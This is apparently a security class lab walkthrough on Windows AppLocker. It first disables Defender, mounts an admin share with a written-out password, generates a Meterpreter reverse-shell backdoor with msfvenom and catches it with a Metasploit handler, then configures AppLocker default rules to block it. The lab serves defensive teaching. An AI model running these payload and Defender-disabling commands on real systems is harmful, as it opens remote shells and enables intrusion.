 # AppLocker

Applocker Instructions:

Let’s see what happens when we do not have **AppLocker** running.  We will set up a simple backdoor and have it connect back to the **Kali** system.  Remember, the goal is not to show how we can bypass **EDR** and **Endpoint** products.  It is to create a simple backdoor and have it connect back.

Before we begin, we need to disable **Defender**. Start by opening an instance of **Windows Powershell**. Do this by clicking on the **Powershell** icon in the taskbar.

![](attachments/OpeningPowershell.png)

Next, run the following command in the **Powershell** terminal:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/applocker_disabledefender.png)

This will disable **Defender** for this session.

If you get angry red errors, that is **Ok**, it means **Defender** is not running.

Let’s get started by opening a **Kali** instance.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's start by getting root access in our terminal.

<pre>sudo su -</pre>

Next, lets run the following command to get our IP address:

<pre>ifconfig</pre>

**Please note the IP address of Y-O-U-R Ethernet adapter.**

![](attachments/applocker_ifconfig.png)

Please note that my adapter is called **"eth0"** and my IP address is **"10.10.1.117"**

**Your IP Address and adapter name may be different.**

We need to run the following command in order to mount our remote system to the correct directory:

<pre>mount -t cifs //10.10.1.209/c$ /mnt/windows-share -o username=Administrator,password=T@GEq5%r2XJh</pre>

Note: The IP address of **10.10.1.209** does not need to be changed in this command.

If you see the following error, it means that the device is already mounted.

![](attachments/mounterror.png)

If this is the case, just run the following command to navigate into the mounted directory:

<pre>cd /mnt/windows-share</pre>

Run the following commands to start a simple backdoor and backdoor listener: 

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[YOUR LINUX IP] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe</pre>

Let's start the **Metasploit Handler**.  First, open a new **Kali** instance. The easiest way to do this is by clicking on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before doing anything else, we need to run the following command in our new terminal window:

<pre>msfconsole -q</pre>

![](attachments/msfconsole.png)

The **Metasploit Handler** successfully ran if the terminal now starts with **"msf6 >"**

Next, let's run the following:

<pre>use exploit/multi/handler</pre>

Now run all of the following commands to set the correct parameters:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST 10.10.1.117</pre>

Remember, 

**your IP will be different!**

<pre>exploit</pre>

It should look like this:

![](attachments/msf6commands.png)

Let’s download the malware and run it!

Open a **Windows** command prompt. Do this by clicking on the icon in the taskbar.

![](attachments/OpeningWindowsCommandPrompt.png) 

Once the prompt is open, let's run the following commands to run the **"TrustMe.exe"** file.

<pre>cd \</pre>

<pre>TrustMe.exe</pre>

![](attachments/runtrustme.png)

Back at your **Kali** terminal, you should now have a **metasploit** session!

![](attachments/meterpretersession.png)

Let’s stop this from happening!

To do this we will need to access the **"Local Security Policy"** on your **Windows** System.

Simply press the Windows key, (lower left hand of your keyboard, looks like a Windows Logo), then type **"Local Security"**.  It should bring up a menu like the one below, please select **"Local Security Policy"**.

![](attachments/localsecuritypolicy.png)

We will need to configure **AppLocker**.  To do this, please go to Security Settings > Application Control Policies > AppLocker.

![](attachments/localsecpolicywindow.png)

Scroll down in the right hand pane. You will see there are **"0 Rules enforced"** for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to break a system.

![](attachments/rulesoverview.png)

Please select each of the above Rule groups, **"Executable, Windows Installer, Script, and Packaged,"** and for each one, right click in the area that says **“There are no items to show in this view.”** and then select **“Create Default Rules”**.

![](attachments/createdefaultrules.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 

![](attachments/appliedrules.png)

For simplicity, you can click the next set of rules from the left panel as seen above.

We now need to enforce the rules:

To do this you will need to select **AppLocker** on the far left pane.  You will need to select **"Configure rule enforcement"**.  This will open a pop-up. Check the **"Configured"** box for each set of rules.  

![](attachments/ruleenforcement.png)

We will need to start the **"Application Identity service"**.  This is done through pressing the Windows key and typing **"Services"**.  

![](attachments/services.png)

This will bring up the **Services App**.  Double-click **“Application Identity”**.

![](attachments/applicationidentity.png)

Once the **"Application Identity Properties"** dialog is open, please press the **Start** button.  This will start the service.

![](attachments/startservice.png)

Open a command prompt and run **"gpupdate"** to force the policy change.

![](attachments/OpeningWindowsCommandPrompt.png)

<pre>gpupdate /force</pre>

We are now going to try to run **"TrustMe.exe"** as another user on the system. 

Run the following commands:

<pre>cd /IntroLabs</pre>

<pre>runas /user:whitelist "nc"</pre>

The password is **adhd**

![](attachments/runas.png)

As you can see, an error was generated, meaning that we were successful!

***

[Back to Navigation Menu](/IntroClassFiles/navigation.md)